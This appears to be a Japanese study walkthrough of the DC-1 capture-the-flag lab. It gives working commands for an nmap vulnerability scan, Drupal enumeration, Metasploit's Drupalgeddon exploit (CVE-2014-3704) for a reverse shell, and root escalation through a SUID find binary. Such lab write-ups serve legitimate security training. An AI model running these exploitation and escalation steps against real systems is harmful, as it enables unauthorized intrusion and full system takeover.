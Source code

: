 ## DC-one 410~

## 目的
- flag1 <- システム内
- flag4 <- システム内
- theFinalFlag <- root

### ポートスキャンまでいつもと同じ
- 20, 80, 111

### nmapで脆弱性を探す
- さらにnmapで脆弱性を探す。`--script vuln`オプションをつけると異常に時間がかかるので、特定のポートだけ実施する
- `nmap -p 80,111 --script vuln $IP | tee vuln.log`
- `cat vuln.log`でcve-2014-3704の脆弱性が見つかる 

### 環境変数またはドメインネームを書き込む、どっちでも好きな方でいい
- 環境変数
  - `export IP=192.168.56.?` 
- DNSの設定をする
  - `vim /etc/hosts`
  - `192.168.56.?  dc-1`

### Webサイトをチェックする
  - robots.txtを見る。これはクローラーがサイトをクローリングしてもいいかを判断できるサイト。Disallowと書いているのは、クローラの巡回を拒否している
  - サイトの作成ソフトとおおよそのバージョンがわかる
  - drupalは有名なwebサイトの構築ソフト


### droopescan
- droopescanはPythonベースのセキュリティスキャナでDrupal,wordpress,Joomlaで使える。より細かいバージョンがわかって、そこからwebサイトを構築している脆弱性を発見できることがある
- `/home/user/.local/bin/droopescan scan drupal -u $URL`
- コマンドはPATHが通っていないとコマンド名だけで実行することはできない
- 結構時間かかる
- versin 7.22~7.26ということがわかる
- drupalはPluginを使うことで機能を拡張することができる。pluginには脆弱性がある場合があるので、拡張機能はチェックする


### Metasploitをネットで調べる
- drupalに脆弱性があるかもしれない
- 調べるだけなのでインターネットにつながっているなら何でもいい 
- `Exploit Database`を検索して、`drupal 7 remote`でsearchする(CVE-2014-3704)
- drupalgeddonを使うのでメモっておく
- 多分ここに表示されているmetasploitはどれも使えると思うが、ここでは上で選択したのを使っている

### (補足)searchsploitでexploitを探す
- ネットが繋がってなくても、searchsploitをダウンロードしていれば、これでも探すことができる
- `searchsploit drupal 7 remote`
- `.py`,`.rb`がコマンドで、`.txt`は説明
- シェルの取得を目的でdrupalのバージョンから、このモジュールを探す -> php/webapps/35150.php
- `searchsploit -m パスの番号`
  - `searchsploit -m 35150`
  - ファイルがダウンロードされるので実行する

### metasploitを実行する
  - ParrotOSのシェルで
  - `msfconsole`
  - 起動画面に使えるモジュールや分類が表示されている
  - どこにdrupalgeddonあるか調べる `search type:exploit drupal` Pathを覚えておく
    - `rank`というのはツールの有能性 
  - `use exploit/multi/http/drupal_drupageddon`
    - パスの入力にはTabが使える
    - 左にある番号を使って`use 番号`でもOK
  - `info`
    - モジュールの使い方がわかる 
  - `show options`をして、Requiredと書いてあるところのyesの部分は必ず埋める必要がある。ただし、`targeturi`はここではないので、デフォルトでスラッシュが設定されているので入力する必要がない
  - `set RHOSTS 192.168.56.103` ターゲット側端末
    - 大文字のところは小文字でもいい 
  - `set LHOST 192.168.56.102` 攻撃側端末
  - `show options`で確認する
  - `run`
  - シェルを取得できるが、これはダムシェルと言って機能が劣るシェルである。次のコマンドをやってみる これはOSを調べるコマンドである `uname -a`、使えないので、いつも使っているようなシェルにする。他にも色々コマンド試してみる


### Pythonのptyで対話シェルに切り替え
  - `shell`
  - Pythonを呼び出してシェルを呼び出す
  - `python -c 'import pty; pty.spawn("/bin/bash")'`
  - 対話シェルに切り替わる



### システムの探索
- OSの特定をすることで脆弱性を見つけられる可能性がある
  - `uname -a` 
- 過去のコマンドの履歴で何かわかるかもしれない
  - `cat .bash_history`
- 一時ファイルの置き場所を調べる
  - `/tmp`は再起動後に消えるが、`/var/tmp`は再起動後でも消えない

- 個人ユーザがroot権限でできることを調べる
  - `sudo -l`をやってみる
- SUIDファイルを検索
  - `find / -perm -u=s -type f 2> /dev/null`
  - find以外に多くのコマンドが出てくるが、sudoコマンドは使えないのでsudoコマンドを使わないGTFOBinsを探す。結局、色々あるがfindしか使えない



### SUIDファイルであるfindコマンドでrootシェルの取得
- SUIDファイルはどのユーザが実行しても所有者が実行したことになる設定
- `which find`パスを調べる
- `ls -l /usr/bin/find`
  - 実行のパーミッションがSで所有者はrootなので、このファイルを実行したらrootになれる
- GTFOBinsのWebサイトから `find`を検索
  - GTFOBinsは裏技ではなく、見落としがちで上手いこと使えるコマンド集 
- `/usr/bin/find . -exec /bin/bash -p \; -quit`
  - `find ~`でもok
  - `-exec`は見つけたファイルを実行する。\;はexecコマンドの終了を示している
  - `-p`は出力がPosix表示になる 
- root権限の取得
### Flagを探して表示
  - `cat /root/thefinalflag.txt`  
